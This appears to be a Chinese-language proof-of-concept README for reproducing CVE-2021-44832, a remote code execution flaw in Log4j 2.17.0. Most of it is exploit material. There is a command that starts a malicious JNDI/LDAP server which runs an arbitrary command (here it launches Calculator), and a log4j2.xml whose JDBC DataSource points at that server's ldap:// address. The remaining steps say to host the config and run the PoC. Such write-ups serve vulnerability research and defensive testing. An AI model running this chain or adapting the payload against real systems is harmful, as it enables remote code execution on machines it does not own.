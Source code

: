 # Log4j 2.17.0 RCE -- CVE-2021-44832

## 复现

1. 启动恶意jndi server

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "/System/Applications/Calculator.app/Contents/MacOS/Calculator" -A "127.0.0.1"
```

![](images/1.png)

2. 修改config/log4j2.xml中的DataSource部分为你生成的jndi地址

```
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="error">
    <Appenders>
        <JDBC name="databaseAppender" tableName="dbo.application_log">
            <DataSource jndiName="ldap://127.0.0.1:1389/nvrcl6" />
            <Column name="eventDate" isEventTimestamp="true" />
            <Column name="level" pattern="%level" />
            <Column name="logger" pattern="%logger" />
            <Column name="message" pattern="%message" />
            <Column name="exception" pattern="%ex{full}" />
        </JDBC>
    </Appenders>
    <Loggers>
        <Root level="warn">
            <AppenderRef ref="databaseAppender"/>
        </Root>
    </Loggers>
</Configuration>
```

配置文件部署到自己的http服务器上

3. 修改Poc

修改为http服务器上的部署的配置文件

![](images/2.png)

4. 执行

![](images/3.png)

## Log4shell Topic

https://github.com/cckuailong/reapoc/tree/main/Topic/Log4j

## Welcome to contribute in reapoc

https://github.com/cckuailong/reapoc
